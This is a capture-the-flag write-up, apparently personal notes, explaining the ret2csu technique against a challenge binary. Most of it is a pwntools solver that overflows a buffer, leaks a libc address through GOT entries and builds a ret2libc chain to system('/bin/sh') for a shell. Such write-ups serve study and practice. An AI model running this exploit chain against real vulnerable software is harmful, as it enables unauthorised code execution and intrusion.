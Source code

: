 [[Pwn]]

## Ret2csu Binary Exploitation
- I'm using this technique because I thought we need to control the 3rd parameter for the total bytes to write, so naturally I need to control the `rdx` register, but the truth is we only need to control the 2nd parameter `rsi` register. But, this is still a win for me because I learned how to use ret2csu technique.
- We only have `pop rsi` gadget but not for `pop rdx` gadget, so I use ret2csu to control the `rdx` gadget.
- We need 2 csu gadget (the pop part and the mov part)
	- `r12` will become `edi`, `r13` → `rsi`, `r14` →`rdx`, `r15` will be called. We need to make sure `rbx` = 0, `rbp` = 1 so that `r15` will be called correctly, and we can pass the `add rbx, 1; cmp rbp, rbx` . By doing this, we'll pass the mov part loop immediately.
	- We need to pass 56 bytes junk to pass the pop part because after calling the second csu gadget we are going to execute the pop part again, but in this state we have successfully called our desired function, and we need to maintain the stack. There's 7 pop, so 56 bytes is enough to reach the `ret` instruction.
- The next stage is to use ret2libc to call `system(/bin/sh)` because we can calculate LIBC base address from the leaked address.


## Solver
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
	if args.GDB: # Set GDBscript below
		return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
	elif args.REMOTE: # ('server', 'port')
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else: # Run locally
		return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
b *0x40124c
b *0x40124a
b *0x4011e2
continue
'''.format(**locals())

# Binary filename
exe = './all_patched_up_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
# EXPLOIT GOES HERE
# ===========================================================

def ret2csu(rbx, rbp, r12, r13, r14, r15, ret):
	payload = flat([
	b'A' * offset,
	csu1, rbx, rbp, r12, r13, r14, r15,
	csu2,
	b'0' * 56, # JUNK to reach the return address
	ret
	])
	return payload

# Lib-C library, can use pwninit/patchelf to patch binary
libc = ELF("./libc-2.31.so")
offset = 520

# Start program
io = start()

csu1 = 0x40124a # pop r12, r13, r14, r15, mov rdi, 1
csu2 = 0x401230 # rdx, rsi, edi, call [r15 + rbx*8]

# Build the payload
payload1 = ret2csu(rbx=0, rbp=1, r12=1, r13=elf.got.read, r14=8, r15=elf.got.write, ret=elf.sym['main'])

# Send the payload
io.sendlineafter(b'>', payload1)
leak = io.recvuntil(b'>')
read_leak = unpack(leak[1:-1].ljust(8, b'\x00'))
info(hex(read_leak))
libc.address = read_leak - libc.symbols['read']
info("LIBC Base: " + hex(libc.address))

# Nothing works :(
# oneshot1 = 0xe3afe # r12, r15 == NULL
# oneshot2 = 0xe3b01 # r15, rdx == NULL
# oneshot3 = 0xe3b04 # rdx, rsi == NULL
# payload2 = ret2csu(rbx=0, rbp=1, r12=0, r13=0, r14=0, r15=libc.address+oneshot3, ret=ret)

pop_rdi = libc.address + 0x23b6a
payload2 = flat({offset: [
	pop_rdi+1,
	pop_rdi,
	next(libc.search(b"/bin/sh\x00")),
	libc.sym['system']
]})

io.sendline(payload2)
io.interactive()
```